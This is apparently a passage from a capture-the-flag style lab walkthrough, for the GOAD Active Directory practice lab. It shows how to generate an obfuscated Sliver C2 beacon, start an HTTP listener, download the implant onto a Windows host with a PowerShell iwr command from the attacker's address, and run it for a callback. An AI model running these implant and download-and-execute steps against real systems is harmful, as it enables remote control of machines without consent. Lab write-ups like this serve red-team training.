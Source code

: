 In sliver, generate a beacon 
```bash
sliver > generate beacon --http 192.168.56.100

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 1m0s
[*] Implant saved to /home/goad/OTHER_WITCH.exe

[*] Beacon 094da7cd OTHER_WITCH - 192.168.56.22:50267 (castelblack) - windows/amd64 - Tue, 21 Nov 2023 11:06:50 UTC
```

Now setup a job to await the connection from the beacon

```bash
sliver > http

[*] Starting HTTP :80 listener ...

---SNIP---

sliver > jobs

 ID   Name   Protocol   Port   Stage Profile 
==== ====== ========== ====== ===============
 3    http   tcp        80
```

Go back to the RDP Session and transfer the .exe over of call from SMB share

```powershell
PS C:\Users\samwell.tarly> iwr http://192.168.56.100:8080/OTHER_WITHC.exe -O goad.exe
PS C:\Users\samwell.tarly> ls


    Directory: C:\Users\samwell.tarly


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       11/20/2023   7:34 PM                3D Objects
d-r---       11/20/2023   7:34 PM                Contacts
d-r---       11/20/2023   7:34 PM                Desktop
d-r---       11/20/2023   7:34 PM                Documents
d-r---       11/20/2023   7:34 PM                Downloads
d-r---       11/20/2023   7:34 PM                Favorites
d-r---       11/20/2023   7:34 PM                Links
d-r---       11/20/2023   7:34 PM                Music
d-r---       11/20/2023   7:34 PM                Pictures
d-r---       11/20/2023   7:34 PM                Saved Games
d-r---       11/20/2023   7:34 PM                Searches
d-r---       11/20/2023   7:34 PM                Videos
-a----       11/21/2023  11:06 AM       17265664 goad.exe

PS C:\Users\samwell.tarly> .\goad.exe
```
Check back in Sliver and we shpuld have our beacon returned to us
